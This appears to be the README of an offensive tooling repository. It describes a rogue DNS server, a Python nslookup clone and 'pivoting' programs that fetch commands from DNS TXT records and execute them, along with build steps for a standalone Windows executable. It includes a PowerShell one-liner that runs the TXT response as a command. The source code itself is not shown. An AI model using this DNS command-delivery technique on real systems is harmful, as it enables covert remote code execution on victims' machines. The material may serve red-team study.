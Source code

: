 ## DNS-Server.cs ##
- Install-Package ARSoft.Tools.Net (NuGet)
- Execute: "powershell . (nslookup -q=txt example.com 127.0.0.1)[-1]"\
  The locahohost IP has to be given to differentiate between the "real" domain and the locally running one.

  - DNS-Server.cs:\
    Simply a rogue DNS-Server with one TXT entry, being "systeminfo"

  - DNS-Server_1.cs:\
    Rogue DNS-Server with multiple TXT entries

-- Build an executable from the Developer Console within Visual studio

https://learn.microsoft.com/en-us/dotnet/core/deploying/single-file/overview?tabs=cli
- Build:
  <code>
  C:\Users\Noone\Desktop\app\ConsoleApp2>dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:PublishDir=.\publish --force
  </code>
- Build standalone:
  <code>
  dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:IncludeNativeLibrariesForSelfExtract=true -p:PublishDir=.\publish --force
  </code>

## nshookup.py (needs dnspython) ##
- nshookup.py:\
  Python implemetation of nslookup. Only works with one TXT entry.
  Gets the entry and executes the content between the two "" as command.
  Command: python nshookup.py domain.com

- nshookup_1.py:\
  Hardcoded domain:
  Command: python nshookup.py

## pivoting.cs ##
- pivoting_1.cs:\
  No checks, just go for it
- pivoting_2.cs:\
  Checks if at least a part of a certain string is present before executing the first step
- pivoting_3.cs:\
  Defines the string as mandatory to execute the first step
